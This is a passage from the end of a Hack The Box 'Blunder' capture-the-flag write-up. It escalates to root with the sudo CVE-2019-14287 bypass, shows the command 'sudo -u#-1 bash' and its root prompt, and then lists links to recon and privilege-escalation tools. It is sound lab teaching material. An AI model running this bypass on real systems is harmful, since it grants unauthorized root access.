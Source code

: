The last line of this output means that we can run `/bin/bash` as any user *excpet* root. However, recently a `sudo` vulnerability (CVE-2019-14287) was published that expliclty allows us to bypass this exact scenario. The syntax for exploiting it is `sudo -u#-1 bash` so lets give that a go.

```bash
hugo@blunder:~$ sudo -u#-1 bash
root@blunder:/home/hugo#
```

That did the trick! Thanks for reading this write-up, the biggest thing I learned from this box was about generating custom wordlists using `cewl`, which I will defintely remember going forward.

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
